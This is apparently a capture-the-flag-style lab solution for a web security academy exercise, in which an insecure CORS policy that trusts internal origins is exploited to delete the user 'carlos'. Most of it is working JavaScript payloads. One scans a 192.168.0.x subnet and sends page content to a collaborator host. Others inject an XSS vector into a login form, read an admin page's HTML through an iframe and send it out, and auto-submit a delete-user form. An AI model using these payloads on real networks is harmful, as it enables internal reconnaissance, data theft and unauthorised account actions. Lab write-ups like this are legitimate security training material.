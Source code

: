 
----

#### Lab description


This website has an insecure CORS configuration in that it trusts all internal network origins.
This lab requires multiple steps to complete. To solve the lab, craft some JavaScript to locate an endpoint on the local network (`192.168.0.0/24`, port `8080`) that you can then use to identify and create a CORS-based attack to delete a user. The lab is solved when you delete user `carlos`.

> To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator's default public server.


#### Lab solution


1. Copy the code bellow and replace the placeholder `$collaboratorPayload` with your collaborator payload
```javascript

`<script> var q = [], collaboratorURL = 'http://$collaboratorPayload'; for(i=1;i<=255;i++) { q.push(function(url) { return function(wait) { fetchUrl(url, wait); } }('http://192.168.0.'+i+':8080')); } for(i=1;i<=20;i++){ if(q.length)q.shift()(i*100); } function fetchUrl(url, wait) { var controller = new AbortController(), signal = controller.signal; fetch(url, {signal}).then(r => r.text().then(text => { location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now(); })) .catch(e => { if(q.length) { q.shift()(wait); } }); setTimeout(x => { controller.abort(); if(q.length) { q.shift()(wait); } }, wait); } </script>`


```
2. Get the IP and Port from collaborator DNS interaction
![](/static/img/Pasted_image_20230724221034.png)
3. And replace the script from step to the following

```javascript
`<script> function xss(url, text, vector) { location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1]; } function fetchUrl(url, collaboratorURL){ fetch(url).then(r => r.text().then(text => { xss(url, text, '"><img src='+collaboratorURL+'?foundXSS=1>'); })) } fetchUrl("http://$ip", "http://$collaboratorPayload"); </script>`

```

4. If `foundXSS=1` is found you got it

![](/static/img/Pasted_image_20230724221136.png)

5. Copy the iP address and Port from step again, and now remove the last script, and paste the following, to get the SRC of the admin page

```
`<script> function xss(url, text, vector) { location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1]; } function fetchUrl(url, collaboratorURL){ fetch(url).then(r=>r.text().then(text=> { xss(url, text, '"><iframe src=/admin onload="new Image().src=\''+collaboratorURL+'?code=\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">'); } )) } fetchUrl("http://$ip", "http://$collaboratorPayload"); </script>`

```

![](/static/img/Pasted_image_20230724221907.png)

![](/static/img/Pasted_image_20230724221924.png)

6. Look at the code got from step 5, and delete the user `carlos` with the following script, paste this following script at the exploit server:


```javascript

`<script> function xss(url, text, vector) { location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1]; } function fetchUrl(url){ fetch(url).then(r=>r.text().then(text=> { xss(url, text, '"><iframe src=/admin onload="var f=this.contentWindow.document.forms[0];if(f.username)f.username.value=\'carlos\',f.submit()">'); } )) } fetchUrl("http://$ip"); </script>`

```


![](/static/img/Pasted_image_20230724221834.png)